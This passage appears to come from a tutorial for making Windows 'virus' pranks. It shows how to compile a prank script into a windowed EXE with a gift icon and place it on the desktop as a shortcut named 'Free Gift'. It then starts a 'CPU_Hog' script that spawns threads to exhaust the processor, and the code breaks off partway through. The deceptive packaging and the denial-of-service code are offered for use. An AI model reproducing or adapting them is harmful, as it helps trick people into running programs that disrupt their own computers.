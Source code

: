 Run it:
```bash
python infinitefolder_prank.py
```
Creating a Clickable Desktop Icon
#### #1 Convert Script to EXE

- Navigate to this link: https://www.iconarchive.com/
- Search your desired icon. For example: gift
- Click All Downloads Format
- Choose Windows: Download ICO
- Rename the file into gift
- Move the gift.ico to your folder

In your terminal, paste this:
```bash
pip install pyinstaller
pyinstaller --onefile --windowed --icon=gift.ico infinitefolder_prank.py
```
#### #2 Create the Desktop Shortcut
- Right-click desktop → New → Shortcut
- Browse to: C:\Users\Administrator\Downloads\malware\virus2\dist\infinitefolder_prank.exe
- Name it "Free Gift"

# Virus 4
### Step 1: Create new folder (vs code) CPU_Hog
### Create New Text file: CPU_Hog.py

Paste this:
```bash
import threading
import time
import hashlib
import os
import tkinter as tk
import winsound  # Windows only
import sys
from datetime import datetime

# === Setup ===
os.makedirs("logs", exist_ok=True)
LOG_FILE = "logs/dos_log.txt"

# === Resource Path for PyInstaller ===
def resource_path(relative_path):
    try:
        base_path = sys._MEIPASS
    except Exception:
        base_path = os.path.abspath(".")
    return os.path.join(base_path, relative_path)

ALARM_FILE = resource_path("alarm.wav")

# === Logging ===
def log(msg):
    with open(LOG_FILE, "a") as f:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        f.write(f"[{timestamp}] {msg}\n")

# === CPU Hog ===
def hog_cpu(name):
    log(f"CPU thread started: {name}")
    while True:
```